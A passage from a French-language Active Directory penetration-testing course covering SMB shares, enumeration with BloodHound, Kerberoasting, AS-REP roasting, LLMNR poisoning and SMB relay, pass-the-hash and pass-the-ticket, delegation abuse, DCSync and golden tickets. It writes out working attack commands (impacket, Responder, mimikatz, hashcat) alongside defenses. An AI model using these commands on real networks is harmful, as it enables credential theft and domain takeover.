| ------- | ---- | ----- |
| `C$`, `D$`, `ADMIN$` | Partages administratifs : tout le disque ou le dossier Windows de la machine distante | Réservés aux administrateurs |
| `IPC$` | Canal de communication interne (Inter-Process Communication) : permet les appels RPC, les vérifications d'identité, les énumérations | Accessible en lecture pour valider des identifiants |
| `NETLOGON` | Scripts de connexion et GPO de connexion des clients | Les clients le montent à l'ouverture de session |
| `SYSVOL` | Répertoire de réplication des GPO et des scripts entre DC | Contient parfois des fichiers `Groups.xml` avec des mots de passe chiffrés (faiblement) |
| Partages métier | Ex. `data`, `users`, `public` | Selon les ACL (listes de contrôle d'accès) |

**Le piège historique.** Le fichier `SYSVOL\...\Policies\...\Groups.xml` contenait les mots de passe des comptes de service chiffrés avec **AES-256 mais une clé publique par défaut** (`cpassword`), stockée par Microsoft. N'importe qui pouvait (et peut toujours) déchiffrer ces mots de passe. Les outils de test vérifient systématiquement ce fichier.

#### Fonctionnement interne

Lors d'un accès SMB, le client négocie un **dialecte** (SMB2.1, SMB3.1.1), s'authentifie (Kerberos si possible, NTLM sinon), puis demande un **tree connect** (« connexion à l'arborescence ») vers un partage, puis ouvre des fichiers. Les permissions sont vérifiées par le serveur contre les groupes de l'utilisateur (les ACL). En pentest, on utilise souvent `smbclient` ou les outils impacket pour énumérer et lire les partages.

#### Cas d'utilisation / exemple réel

Sur une machine HTB (ex. **Sizzle**, **Support**), la première porte est souvent un partage SMB lisible par tous : un fichier de configuration, un script, un carnet de mots de passe, un export d'utilisateurs. `smbclient //target/data -U guest` ou `netexec smb` permettent de les lister. Un compte faible trouvé dans un partage ouvre ensuite le domaine.

#### Bonnes pratiques

- Restreindre les partages à la lecture **pour les bons groupes** : un partage `users` lisible par `Everyone` (tous) est une boîte à cadeaux.
- Surveiller les accès aux partages administratifs (un `C$` ouvert par un compte non admin est un signe d'attaque).
- Vérifier les fichiers `SYSVOL\Groups.xml` : un `cpassword` présent est une vulnérabilité connue à corriger.

#### Résumé

SMB (port 445) transporte les partages de fichiers et les canaux administratifs Windows. Il sert d'énumération (partages, IPC$), de vecteur d'exécution (psexec/wmiexec via `ADMIN$`/`C$`) et de protocole de sortie pour les relais. Les partages administratifs et SYSVOL sont des cibles de choix.

---

### (e) La reconnaissance et l'énumération AD

#### Définition

L'**énumération AD** consiste à interroger l'annuaire (LDAP), le DNS, SMB et les API Windows pour dresser la carte du domaine : utilisateurs, groupes, machines, OUs, partages, GPO, ACL. Le résultat de cette phase est un **graphe** des relations et des permissions : les **chemins d'attaque** possibles.

**Analogie.** L'énumération, c'est la **lecture des plans du bâtiment** avant de forcer une porte : tu ne sais pas encore où est le coffre, mais tu sais qui a la clé de quelle pièce, qui a le droit d'ouvrir le local technique, et qui s'est connecté où. En pentest AD, « lire les plans » est la phase qui détermine 80 % de la réussite.

#### Pourquoi

Un domaine est un **graphe de privilèges** : utilisateurs → groupes → permissions sur les machines → capacités. Les erreurs de configuration créent des liens inattendus dans ce graphe (un utilisateur dans un groupe qui a des droits sur un serveur, un admin connecté à un poste vulnérable, une GPO modifiable par n'importe qui). L'énumération révèle ces liens, et BloodHound les transforme en chemins visuels.

#### Les trois sources d'information

| Source | Protocole/Port | Ce qu'on en tire |
| ------ | -------------- | ---------------- |
| **LDAP** (annuaire) | 389/TCP (636 pour LDAPS) | Liste des utilisateurs, groupes, attributs, SPN, ACL, appartenances |
| **DNS** | 53/UDP-TCP | Les noms des machines, les DC (SRV records) |
| **SMB / NetBIOS** | 445/TCP, 137-139 | Les partages, les machines, les noms NetBIOS |
| **RPC** (Remote Procedure Call) | 135/TCP, ports dynamiques | Énumérations Windows natives (utilisateurs via `net user /domain`…) |

#### L'outillage — trois familles

**1. PowerShell + module ActiveDirectory** (depuis une machine Windows membre du domaine) :

```powershell
Get-ADUser -Filter *                        # tous les utilisateurs
Get-ADUser alice.jones -Properties *        # tous les attributs d'un utilisateur
Get-ADComputer -Filter *                    # toutes les machines
Get-ADGroup -Filter *                       # tous les groupes
Get-ADGroupMember "Domain Admins"           # membres d'un groupe
Get-ADDomain                                # infos du domaine (SID, DC, DNS)
```

**2. Outils Linux (impacket, ldapsearch)** (depuis ta Kali, avec un compte valide) :

```bash
ldapsearch -x -H ldap://dc01 -b "dc=megacorp,dc=local" "(objectClass=user)" sAMAccountName
bloodhound-python -u alice -p 'MotDePasse!' -d megacorp.local -c All -ns 10.10.10.1
netexec smb 10.10.10.0/24 -u alice -p 'MotDePasse!'        # test de comptes, partages
```

**3. SharpHound (collecteur BloodHound)** — exécuté **sur une machine Windows** du domaine :

```
.\SharpHound.exe --CollectionMethods All --Domain megacorp.local
```

Le collecteur écrit des fichiers JSON/ZIP qui se **chargent dans BloodHound** (interface web + base **Neo4j**) pour afficher le graphe.

#### BloodHound : concepts

**BloodHound** est un outil open-source qui **mappe les chemins d'attaque** dans un domaine AD. Il se compose :

| Élément | Rôle |
| ------- | ---- |
| **Collecteur** | `SharpHound.exe` (Windows) ou `bloodhound-python` (Linux) : récupère les données AD (utilisateurs, groupes, sessions, ACL, partages) |
| **Base Neo4j** | Base de graphe qui stocke nœuds (objets) et arêtes (relations de permission/session) |
| **Interface web** | On y lance des requêtes : « chemins les plus courts vers Domain Admins », « utilisateurs Kerberoastables », « machines où un utilisateur a une session » |

Les requêtes BloodHound préconçues (built-in queries) les plus utilisées :

| Requête | Ce qu'elle montre |
| ------- | ----------------- |
| Shortest Paths to Domain Admins | Le chemin le plus court entre le point de départ et le contrôle du domaine |
| Find Kerberoastable Users | Les comptes avec SPN (cibles du Kerberoasting) |
| Users with AS-REP Roastable Accounts | Les comptes sans pré-authentification (cibles de l'AS-REP Roasting) |
| Find Sessions where users have local admin rights | Les machines où un admin est connecté et où tu es admin local → potentiel vol de session |
| Shortest Paths from Owned Principals | Les chemins à partir des objets que tu contrôles déjà |

#### Le concept de chemin d'attaque

Un **chemin d'attaque** (attack path) est une séquence de relations qui transforme un point d'entrée (un compte, une machine) en un objectif (le contrôle du domaine). Exemple classique :

```
alice (utilisateur faible)
  └─ Membre du groupe "Backup Operators"        (groupe qui peut lire NTDS.dit / sauvegardes)
       └─ Peut extraire les hashes du DC (reg.exe save, secretsdump)
            └─ Hash de l'Administrator
                 └─ DCSync / admin → domaine contrôlé
```

BloodHound calcule automatiquement ces chemins : c'est la « Google Maps du domaine ».

#### Exemple réel

Sur la machine HTB **Resolute**, un compte `svc-...` (compte de service) faible se trouve par énumération DNS + LDAP. BloodHound montre qu'il est membre de `Remote Management Users` (accès WinRM) sur le DC, et qu'une GPO contient un mot de passe. Deux chemins pour le même objectif : le graphe t'a montré le plus court.

#### Bonnes pratiques

- Toujours énumérer **avec le moins de bruit possible** : `Get-ADUser` peut être détecté par les EDR ; préférer la collecte BloodHound standard puis l'analyse hors ligne.
- **Toujours BloodHound d'abord** : 30 minutes de graphe valent 3 heures de scripts manuels.
- Documenter chaque compte, chaque permission, chaque session trouvée : ton rapport en a besoin.
- Vérifier les **objets « owned »** : déclare dans BloodHound ce que tu contrôles (utilisateur compromis, machine compromis) pour recalculer les chemins réalistes.

#### Résumé

L'énumération AD interroge LDAP, DNS, SMB et RPC pour dresser la carte des objets et de leurs permissions. Trois familles d'outils : PowerShell (`Get-AD*`), impacket/`ldapsearch` (Linux), et BloodHound (collecteur SharpHound/`bloodhound-python` + graphe Neo4j). BloodHound transforme l'énumération en **chemins d'attaque** visuels, de l'accès initial au contrôle du domaine.

---

### (f) Les attaques sur l'authentification : Kerberoasting et AS-REP Roasting

#### Définition

Deux attaques « passives » qui volent des secrets **sans se connecter** : elles demandent simplement des tickets Kerberos (que tout utilisateur authentifié peut demander) et les cassent hors ligne.

- **Kerberoasting** : demande un TGS pour un compte de service (SPN) puis **casse** le ticket hors ligne, car il est chiffré avec la clé dérivée du mot de passe du compte de service.
- **AS-REP Roasting** : cible les comptes dont la **pré-authentification Kerberos est désactivée** ; on leur demande un AS-REP qui contient un chiffrement par leur clé, et on le casse hors ligne.

**Analogie.** Kerberoasting, c'est observer que le **plateau-repas du personnel** est livré dans des boîtes fermées avec un cadenas identique à leur mot de passe : tu prends une boîte (le ticket), tu l'emportes chez toi, et tu essaies toutes les combinaisons de cadenas (le cracking) dans ton garage. Personne ne s'aperçoit que tu as pris la boîte.

#### Pourquoi

Les **comptes de service** (les comptes que les applications utilisent : bases de données, messagerie, planification) ont souvent des mots de passe **anciens, courts, et rarement changés** — parfois identiques entre services. Kerberoasting transforme un compte utilisateur quelconque en compte de service compromis, souvent avec des droits élevés. AS-REP Roasting transforme un compte « sans pré-auth » (une exception de sécurité) en accès sans mot de passe.

#### Kerberoasting — le mécanisme

Rappel du flux Kerberos : pour accéder au service `cifs/srv01`, le client demande au KDC un TGS pour le SPN `cifs/srv01`. Ce TGS est **chiffré avec la clé du compte de service** (dérivée de son mot de passe). Le client n'a pas besoin d'autorisation particulière pour demander ce ticket : tout utilisateur authentifié du domaine peut demander un TGS pour n'importe quel SPN.

**L'attaque :**

1. Énumérer les SPN : `GetUserSPNs.py megacorp.local/alice:MotDePasse! -dc-ip 10.10.10.1 -request` (impacket) ou `Rubeus.exe kerberoast` (Windows).
2. Récupérer le **TGS au format hashcat** (`$krb5tgs$23$*service*...`).
3. Casser hors ligne : `hashcat -m 13100 tgs.txt rockyou.txt` ou `john --format=krb5tgs`.

| Outil | Commande clé | Sortie |
| ----- | ------------ | ------ |
| impacket | `GetUserSPNs.py -request -dc-ip <ip> domaine/utilisateur:motdepasse` | Le hash du TGS |
| Rubeus | `Rubeus.exe kerberoast /outfile:hashes.txt` | Le hash du TGS |
| hashcat | `hashcat -m 13100 hashes.txt rockyou.txt` | Le mot de passe en clair |
| john | `john --format=krb5tgs hashes.txt --wordlist=rockyou.txt` | Le mot de passe en clair |

**Points clés :** l'attaque est **discrète** (c'est un trafic Kerberos normal), elle nécessite un compte valide quelconque, et elle ne touche jamais le serveur du service — seulement le KDC. Défense : mots de passe longs (>25 caractères) sur les comptes de service, ou comptes **gMSA** (group Managed Service Account) dont le mot de passe est géré automatiquement par AD.

#### AS-REP Roasting — le mécanisme

La **pré-authentification Kerberos** est la première étape de l'AS-REQ : l'utilisateur doit chiffrer un timestamp avec sa clé, prouvant qu'il connaît son mot de passe, **avant** que le KDC ne lui délivre un TGT. Si un administrateur désactive cette pré-authentification sur un compte (pour compatibilité avec un vieux logiciel, par exemple), n'importe qui peut demander un AS-REP pour ce compte, et le KDC renvoie un TGT **chiffré avec la clé du compte** — sans aucune preuve de connaissance du mot de passe.

**L'attaque :**

1. Trouver les comptes sans pré-authentification (attribut `UAC = 0x400000` désactivé) : `GetNPUsers.py megacorp.local/ -usersfile users.txt -dc-ip 10.10.10.1 -no-pass` (impacket) ou `Rubeus.exe asreproast`.
2. Récupérer le hash (`$krb5asrep$23$...`).
3. Casser : `hashcat -m 18200 asrep.txt rockyou.txt` ou `john --format=krb5asrep`.

**Points clés :** n'a besoin **d'aucun mot de passe** (juste la liste des noms d'utilisateurs — souvent dans une énumération) ; si le compte a un mot de passe faible, il tombe en quelques minutes. Défense : vérifier les comptes avec `DONT_REQUIRE_PREAUTH` (drapeau de compte), les supprimer ou les protéger.

#### Tableau comparatif

| Critère | Kerberoasting | AS-REP Roasting |
| ------- | ------------- | --------------- |
| Cible | Comptes avec SPN (de service) | Comptes sans pré-authentification |
| Prérequis | Un compte valide quelconque | Aucun — juste une liste d'utilisateurs |
| Ce qu'on récupère | Un TGS (ticket de service) | Un TGT (ticket d'authentification) |
| Format hashcat | 13100 | 18200 |
| Format john | krb5tgs | krb5asrep |
| Discrétion | Faible bruit (trafic Kerberos normal) | Faible bruit |
| Défense | Mots de passe longs / gMSA / monitoring 4769 | Activer la pré-auth / monitoring 4768 |

#### Exemple réel

Sur la machine HTB **Sauna**, l'énumération LDAP révèle un compte `svc_loanmgr`. `GetNPUsers.py` le trouve AS-REP roastable, son TGT tombe avec `john --format=krb5asrep` → mot de passe `Moneymakestheworldgoround!`. Ce compte a des droits WinRM sur le DC : le domaine est presque pris. (Machine résolue dans les laboratoires.)

#### Bonnes pratiques / résumé

Kerberoasting et AS-REP Roasting sont des attaques **offline** : on casse un ticket, pas un mot de passe en transit. Elles nécessitent du côté attaquant une énumération propre et une bonne wordlist. Côté défense : longueur et unicité des mots de passe de service, comptes gMSA, désactivation de la pré-auth non nécessaire, et surveillance des évènements 4769 (Kerberoast) et 4768 (AS-REP).

---

### (g) Les attaques réseau : LLMNR/NBT-NS poisoning et SMB relay

#### Définition

Quand un utilisateur tape `\\serveur-nom` ou ouvre un lecteur réseau par son nom, Windows doit résoudre ce nom en adresse IP. S'il ne trouve pas le nom dans DNS, il utilise des protocoles de **résolution de noms par diffusion** (broadcast/multicast) :

| Protocole | Nom complet | Rôle |
| --------- | ----------- | ---- |
| **LLMNR** | Link-Local Multicast Name Resolution | Résout les noms par multicast (port 5355/UDP) |
| **NBT-NS** | NetBIOS Name Service (NetBIOS over TCP/IP) | Résout les noms NetBIOS par diffusion (ports 137-139) |
| **mDNS** | Multicast DNS | Résolution en multicast (contexte non Windows) |

**Analogie.** DNS, c'est l'**annuaire téléphonique officiel** : tu cherches le numéro de « Service Techniques », tu le trouves. Quand le numéro n'est pas dans l'annuaire, tu passes par le **haut-parleur du bâtiment** : « Service Techniques, répondez ! » — et n'importe qui peut répondre. Le poisoner joue le rôle de l'imposteur qui répond : « C'est moi, Service Techniques, donnez-moi votre accès. »

#### Pourquoi

Les utilisateurs font des **fautes de frappe** et ouvrent des chemins qui ne sont pas dans le DNS (`\\fiels`, `\\serveur`). Windows demande alors aux voisins LLMNR/NBT-NS. Un attaquant qui **répond** à ces demandes se fait passer pour le service demandé et reçoit une tentative d'authentification **NTLM** (challenge/response). Il capture alors le hash NetNTLMv2 de l'utilisateur.

#### LLMNR/NBT-NS poisoning avec Responder

**Responder** est l'outil de référence (impacket/Responder, inclus dans Kali) : il écoute sur le réseau, **répond à toutes les requêtes LLMNR/NBT-NS/mDNS**, et se fait ainsi capturer les authentifications NTLM des victimes.

```bash
sudo responder -I eth0
```

| Option | Rôle |
| ------ | ---- |
| `-I eth0` | Interface réseau à écouter |
| `-w` | Activer la capture de hash pour les requêtes WPAD (proxy auto-découverte) |
| `-v` | Mode verbeux |

Quand un utilisateur tape `\\mauvais-nom`, Responder renvoie son propre hash NetNTLMv2 dans les logs :

```
[+] Listening for events...
[*] [NBT-NS] Poisoned answer sent to 10.10.10.50    for name FAUTEUIL-WS (service: Workstation/Redirector)
[SMB] NTLMv2-SSP Client   : 10.10.10.50
[SMB] NTLMv2-SSP Username : MEGACORP\bob
[SMB] NTLMv2-SSP Hash     : bob::MEGACORP:a1b2c3...:hash
```

#### Deux options après la capture : cracker ou relayer

**Option 1 — Cracker le hash NetNTLMv2 (offline).**

```bash
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
```

Mode hashcat **5600** = NetNTLMv2. Si le mot de passe est faible, il tombe. `john --format=netntlmv2` fait la même chose.

**Option 2 — Relayer (SMB relay).** Au lieu de casser, on **relaie** l'authentification capturée vers un autre serveur SMB : le serveur cible voit une authentification légitime (dont on connaît la réponse) et on s'y connecte **sans connaître le mot de passe**. Outil : `ntlmrelayx.py` (impacket).

```bash
sudo ntlmrelayx.py -t smb://10.10.10.20 -smb2support -i
```

| Option | Rôle |
| ------ | ---- |
| `-t smb://IP` | Cible du relais (ici un autre serveur SMB) |
| `-smb2support` | Autoriser SMB2 (sinon la cible doit parler SMB1) |
| `-i` | Ouvrir un shell interactif une fois authentifié |
| `-e shell.exe` | Exécuter un fichier à la place |

**Conditions du relais SMB :** (1) la cible ne doit pas exiger de signature SMB (SMB signing désactivé — la valeur par défaut ancienne, désormais renforcée) ; (2) l'authentification capturée doit être un compte **local admin sur la cible** (ou avoir les droits) ; (3) le relais SMB vers SMB ne fonctionne pas si la signature est requise. Le relay vers **LDAP** (ex. pour créer un compte) ou **HTTP** fonctionne dans d'autres cas.

#### Exemple réel

Sur un réseau de labo GOAD (Game of Active Directory), un utilisateur d'une machine Windows membre du domaine tape `\\dc01e` (faute de frappe). Responder capture son hash NetNTLMv2. Le mot de passe est `Password123` : `hashcat -m 5600` le casse en 30 secondes, et ce compte est membre d'un groupe qui a des droits sur un serveur. On avance dans le domaine.

#### Bonnes pratiques

- Côté défense : **désactiver LLMNR et NBT-NS** via les GPO, exiger la **signature SMB**, activer le mode **SMB signing required** sur les serveurs sensibles, mettre à jour les clients (les versions modernes résolvent mieux en DNS).
- Côté attaquant : vérifier avec `crackmapexec`/netexec si la cible exige la signature SMB **avant** de relayer : `nxc smb cible -u '' -p '' -M smb_signing` (voir module suivant).

#### Résumé

Les fautes de frappe et les résolutions de nom ratées déclenchent LLMNR/NBT-NS : Responder y répond et capture les hashes NTLMv2. Deux suites possibles : **cracker** (`hashcat -m 5600`) ou **relayer** (`ntlmrelayx.py`) — le relais exige une cible sans signature SMB et un compte avec droits. Défense : couper LLMNR/NBT-NS et signer SMB.

---

### (h) Le mouvement latéral : Pass-the-Hash, Pass-the-Ticket, exécution distante

#### Définition

Une fois un **secret** récupéré (hash NTLM, ticket Kerberos, mot de passe en clair), il faut **l'utiliser sur d'autres machines** du domaine : c'est le **mouvement latéral**. Les trois grandes familles :

| Technique | Acronyme | Secret utilisé | Principe |
| --------- | -------- | -------------- | -------- |
| **Pass-the-Hash** | PtH | Le hash NT d'un compte | Rejouer le hash (sans le casser) comme secret pour s'authentifier sur SMB/WinRM |
| **Overpass-the-Hash** | OTH | Le hash NT d'un compte | Transformer le hash en ticket Kerberos (utiliser le hash là où Kerberos est exigé) |
| **Pass-the-Ticket** | PtT | Un ticket Kerberos (TGT ou TGS) | Injecter le ticket dans la session (mimikatz `ptt`, Rubeus) pour s'authentifier en tant que le titulaire |

**Analogie.** PtH, c'est **ouvrir la porte avec l'empreinte de quelqu'un d'autre** : tu n'as pas besoin de connaître son code (le mot de passe), juste son empreinte (le hash). PtT, c'est **emprunter le badge de la journée** de quelqu'un : le badge lui-même (le ticket) ouvre les portes.

#### Pourquoi le PtH fonctionne

NTLM (et Kerberos avec RC4) acceptent comme secret le **hash NT** lui-même, pas seulement le mot de passe. Or, récupérer un hash NT est fréquent (DCSync, capture LSA, fichiers `NTDS.dit`, déchiffrement). Le PtH transforme donc n'importe quel vol de hash en accès : `psexec.py -hashes :<hash>` ou `crackmapexec -H <hash>`.

**Contrainte importante :** le hash doit correspondre à un compte qui a des droits sur la machine cible — typiquement **un admin local de la cible** ou un compte de domaine à haut privilège. Un hash d'utilisateur lambda ne donne pas accès aux autres machines.

#### Les outils d'exécution distante

Une fois un compte avec droits obtenus, il faut exécuter des commandes sur la machine cible. Les outils d'impacket ouvrent une session en utilisant différents protocoles :

| Outil impacket | Protocole | Port | Particularité |
| -------------- | --------- | ---- | ------------- |
| `psexec.py` | SMB (partage admin `ADMIN$`) | 445 | Crée un service Windows (le plus détectable), shell interactif |
| `smbexec.py` | SMB | 445 | Sans créer de fichier binaire, via les services |
| `wmiexec.py` | WMI (Windows Management Instrumentation) | 135 + dynamiques | Sans fichier binaire, semi-interactif, souvent le moins bavard |
| `atexec.py` | Tâches planifiées (Task Scheduler) | 445 | Planifie une tâche sur la cible |

**Exemples réels :**

```bash
# Pass-the-Hash via psexec (hash NT du compte, format LM:NT ; mettre vide pour LM)
psexec.py -hashes :aad3b435b51404eeaad3b435b51404ee:3171f97f4c5a6d1f7b3c2e1a5d6e8f9a MEGACORP/administrator@10.10.10.5

# Pass-the-Hash via wmiexec
wmiexec.py -hashes :3171f97f4c5a6d1f7b3c2e1a5d6e8f9a MEGACORP/administrator@10.10.10.5

# Pass-the-Hash via netexec (successeur de crackmapexec)
nxc smb 10.10.10.5 -u administrator -H 3171f97f4c5a6d1f7b3c2e1a5d6e8f9a --exec-method smbexec
```

| Outil | Rôle |
| ----- | ---- |
| **crackmapexec** (outil) | Testeur multi-protocoles (SMB, WinRM, LDAP, MSSQL…) ; prédécesseur de **netexec (nxc)** — le nom a changé (le fork netexec a remplacé crackmapexec en 2024, mais les deux fonctionnent et sont omniprésents dans les doc/write-ups) |
| **netexec (nxc)** | Successeur : `nxc smb cible -u user -H hash --shares`, `-M`, `--pass-pol`… |

#### Overpass-the-Hash

Sur un hôte Windows, un hash NT peut être converti en ticket Kerberos (donc en TGT) pour le domaine, ce qui permet les accès Kerberos. Mimikatz :

```
sekurlsa::pth /user:bob /domain:MEGACORP /ntlm:<hash> /run:powershell
```

Cela lance un processus avec l'identité de `bob` à partir du hash, sans connaître le mot de passe. (Le `/aes128:` ou `/aes256:` permettent d'utiliser les clés AES à la place.)

#### Pass-the-Ticket

On récupère un ticket Kerberos (ex. avec mimikatz `sekurlsa::tickets`, Rubeus `dump`, ou depuis la mémoire) et on l'injecte :

```
# mimikatz : injecter le ticket dans la session courante
kerberos::ptt ticket.kirbi

# Rubeus : recharger un ticket depuis un fichier
Rubeus.exe ptt /ticket:ticket.kirbi
```

Ensuite, `psexec.py -k -no-pass MEGACORP/administrator@serveur` (impacket, option `-k` = utiliser Kerberos avec le ticket de la variable d'environnement `KRB5CCNAME`) permet de se connecter **sans mot de passe**.

#### Exemple réel

Sur la machine HTB **Active**, un **groupe local `Recycle Bin`** contient un hash utilisateur historique ; ou encore, plus typiquement : tu récupères le hash NT d'un admin local via un dump de `lsass`, et `nxc smb --shares` puis `psexec.py -hashes` t'ouvrent le serveur de fichiers puis le DC.

#### Pièges classiques

- **Le PtH ne marche que sur SMB dans certaines configurations** : WinRM (winrm) refuse parfois le PtH selon les politiques, et Kerberos moderne avec AES l'ignore ; il faut parfois passer par Overpass-the-Hash (convertir le hash en ticket) puis Kerberos.
- Un hash NT rejoué sur une machine où le compte n'est **pas admin local** échoue (`STATUS_ACCESS_DENIED`).
- Les mots de passe changés rendent les hashes obsolètes ; les tickets Kerberos expirent (durée de vie TGT = 10 h par défaut dans AD).

#### Bonnes pratiques

- Identifier d'abord **où le compte a des droits** (BloodHound : requête « Shortest Path », fonctionnalités « sessions », `nxc smb` en masse) avant de tenter le PtH.
- Vérifier les protocoles disponibles sur la cible : `nxc smb cible -u user -H hash` (SMB), `nxc winrm cible ...` (WinRM, port 5985/5986).
- Choisir `wmiexec.py` ou `atexec.py` pour le faible bruit, `psexec.py` quand on veut un shell interactif confortable.

#### Résumé

Le mouvement latéral rejoue les secrets volés : PtH (hash NT vers SMB/WinRM), OTH (hash NT vers Kerberos via mimikatz `sekurlsa::pth`), PtT (ticket injecté via `kerberos::ptt`/Rubeus). L'exécution distante passe par `psexec.py`, `smbexec.py`, `wmiexec.py`, `atexec.py` (impacket) ou netexec. Règle d'or : un secret ne vaut que si le compte a des droits sur la cible.

---

### (i) Les privilèges et délégations : admin local, droits, membreships

#### Définition

« Privilege » (privilège) = droit d'effectuer une action (se connecter, exécuter, lire, écrire). Dans AD, on distingue les **droits locaux** (sur une machine : admin local, Remote Desktop Users…) et les **droits du domaine** (Domain Admins, Enterprise Admins…). La **délégation** est la pratique qui consiste à confier une partie de l'administration à un compte ou un groupe (ex. « ce groupe peut réinitialiser le mot de passe des utilisateurs de l'OU Ventes »).

**Analogie.** Le **directeur d'hôtel** (Domain Admins) peut tout faire partout. Les **chefs d'étage** (délégations) peuvent seulement remettre les clés des chambres de leur étage (réinitialiser les mots de passe de leur OU). Et la **femme de chambre** (admin local) peut entrer dans les chambres d'un seul bâtiment (une machine) — mais si elle y trouve le portefeuille du directeur (un admin connecté), elle devient plus puissante.

#### Pourquoi

Le mouvement latéral et l'escalade de privilèges AD reposent presque toujours sur des **permissions mal placées** : un utilisateur dans un groupe `Administrators` local d'une machine, un groupe `Backup Operators` avec des droits de sauvegarde, une **délégation Kerberos** non restreinte sur un compte de service. BloodHound cartographie toutes ces relations : le « shortest path » que tu obtiens est un enchaînement de privilèges.

#### Les privilèges locaux clés

| Groupe local / droit | Portée | Ce qu'il permet |
| -------------------- | ------ | --------------- |
| **Administrators** | Une machine | Tout sur la machine : exécution, lecture mémoire (lsass), partages admin |
| **Remote Desktop Users** | Une machine | Session RDP (Remote Desktop Protocol, port 3389) |
| **Remote Management Users** | Une machine | WinRM (ports 5985/5986) — l'équivalent d'un shell |
| **Backup Operators** | Domaine ou machine | Droit de sauvegarde : peut lire les fichiers même sans ACL (ex. `NTDS.dit`) |
| **Account Operators** | Domaine | Gère les comptes et groupes (mais pas les admins) — potentiellement dangereux |
| **Print Operators** | Domaine | Droits sur les imprimantes, mais peut aussi charger des drivers — escalade possible |
| SeImpersonatePrivilege (droit) | Une machine | Droit d'emprunter un token : utilisé par les outils **JuicyPotato**/**PrintSpoofer** pour devenir SYSTEM |

**Rappel RID** : le compte `Administrator` local a le **RID** (Relative Identifier) 500 ; le groupe local `Administrators` a le RID 544 ; le compte `Guest` le 501. Dans `S-1-5-21-<identifiant-domaine>-<RID>`, le RID est le dernier nombre : c'est la « pièce d'identité » unique de chaque objet.

#### La délégation Kerberos

La **délégation Kerberos** permet à un service (ex. un serveur d'applications) de **s'authentifier auprès d'un autre service au nom d'un utilisateur**. Trois modes :

| Mode | Fonctionnement | Risque |
| ---- | -------------- | ----- |
| **Non-restreinte** (unconstrained) | Le service reçoit le **TGT** de l'utilisateur en clair dans son ticket de service | N'importe quel ticket qui passe par le service est **stocké en mémoire** (lsass) → vol de TGT → impersonation totale |
| **Restreinte** (constrained) | Le service ne peut s'authentifier que vers une liste de services précis | Moins risquée, mais les autorisations mal configurées (S4U2Self) peuvent être abusées |
| **Resource-based constrained** | La cible déclare qui peut se déléguer vers elle | Exploitable si on a des droits d'écriture sur l'objet cible |

**En pentest** : si un compte est configuré en délégation non restreinte et que l'attaquant contrôle une machine où ce compte s'authentifie (ou détient le hash), il peut **voler les TGT** qui transitent : c'est une des voies les plus rapides vers Domain Admins. BloodHound détecte ces comptes (requête « Find principals with Unconstrained Delegation »).

#### Exemple réel

Sur la machine HTB **Forest**, un utilisateur (`svc-alfresco`) est membre du groupe `Account Operators`. Ce groupe peut ajouter des membres à des groupes privilégiés (sauf les groupes d'administration) : on ajoute notre utilisateur à `Exchange Windows Permissions`, ce qui donne un droit d'écriture sur le domaine → **DCSync** → contrôle total. Un seul privilège mal placé a ouvert tout le domaine.

#### Bonnes pratiques

- **Admin tier model** (modèle à niveaux) : séparer strictement les comptes — un compte admin de domaine ne doit jamais se connecter à un poste de travail ; les postes appartiennent au « tier 1 », les serveurs au « tier 2 », les DC/annuaire au « tier 0 ». Cette séparation casse les chemins d'attaque.
- Auditer régulièrement les membres des groupes privilégiés et des délégations.
- Surveiller l'activation de `SeImpersonatePrivilege` sur les services web (escalade JuicyPotato/PrintSpoofer).

#### Résumé

L'escalade AD est un enchaînement de privilèges : locaux (Administrators, RDP, WinRM, Backup/Account/Print Operators, SeImpersonate) et de domaine (Domain/Enterprise Admins). Les délégations Kerberos (surtout non restreintes) exposent les tickets des utilisateurs. Le tier model sépare les niveaux pour couper ces chaînes.

---

### (j) Les attaques sur la confiance : DCSync, NTDS.dit, golden et silver tickets

#### Définition

La dernière marche : **le contrôle du domaine**. Quatre techniques majeures :

- **DCSync** : on simule une réplication AD ; le DC envoie les hashes des comptes (dont `krbtgt`) comme s'il parlait à un autre DC.
- **NTDS.dit** : la base AD elle-même ; si on la copie (avec ses hashes), on a tout.
- **Golden ticket** : on forge un **TGT** signé avec la clé de `krbtgt` → n'importe quelle identité, n'importe quelle durée.
- **Silver ticket** : on forge un **TGS** signé avec la clé d'un **service** précis → accès à ce service sans TGT.

**Analogie.** Le **DCSync**, c'est se faire passer pour l'agent de sécurité du siège et demander à la filiale : « Envoyez-moi la liste complète des badges et de leurs codes » — la filiale obéit car le protocole est fait pour ça. Le **golden ticket**, c'est fabriquer un badge maître dans le moule du siège : il ouvre toutes les portes, même celles qui n'ont jamais existé.

#### DCSync — le mécanisme

AD réplique l'annuaire entre DC grâce au protocole **DRSR** (Directory Replication Service Remote Protocol). Tout DC peut demander la réplication des données — c'est nécessaire. Or, **n'importe quel compte avec les droits de réplication** (les droits `Replicating Directory Changes` / `All`, typiquement attribués aux DC mais parfois à d'autres comptes) peut **simuler une demande de réplication** : le DC répond en envoyant **les hashes NT de tous les comptes du domaine**, y compris `krbtgt` et `Administrator`.

**Le compte `krbtgt`** est le compte de service du KDC : sa clé sert à chiffrer **tous les TGT** du domaine. Voler sa clé = pouvoir forger des TGT.

**Outils :**

```bash
# impacket — dump des hashes de tous les comptes via DCSync
secretsdump.py MEGACORP/administrator:'MotDePasse!'@dc01.megacorp.local

# avec un hash au lieu du mot de passe
secretsdump.py -hashes :<nt_hash> MEGACORP/administrator@10.10.10.5
```

```text
# sortie (extrait) :
Administrator:500:aad3b435b51404eeaad3b435b51404ee:3171f97f4c5a6d1f7b3c2e1a5d6e8f9a:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:6b3a8d3c9f2e5a7b1c4d6e8f9a0b1c2d3:::
bob:1001:...:...:::
```

**Mimikatz** (sur un DC ou un système ayant le droit) :

```
lsadump::dcsync /domain:MEGACORP /user:krbtgt
lsadump::dcsync /domain:MEGACORP /user:administrator
```

**Prérequis** : un compte ayant les droits de réplication sur le domaine (par défaut : les DC ; souvent hérités par des groupes à tort). `secretsdump.py` peut aussi lire **localement** un `NTDS.dit` + `SYSTEM` hives volés : `secretsdump.py -ntds ntds.dit -system SYSTEM LOCAL`.

#### Golden ticket

Avec la clé **AES** (ou le hash NT RC4) de `krbtgt`, on forge un TGT pour **n'importe quel compte** (même un compte qui n'existe pas), avec la durée de validité de son choix. Outil : `ticketer.py` (impacket) ou mimikatz `kerberos::golden`.

```bash
ticketer.py -nthash <hash_krbtgt> -domain-sid S-1-5-21-... -domain megacorp.local Administrator
export KRB5CCNAME=Administrator.ccache
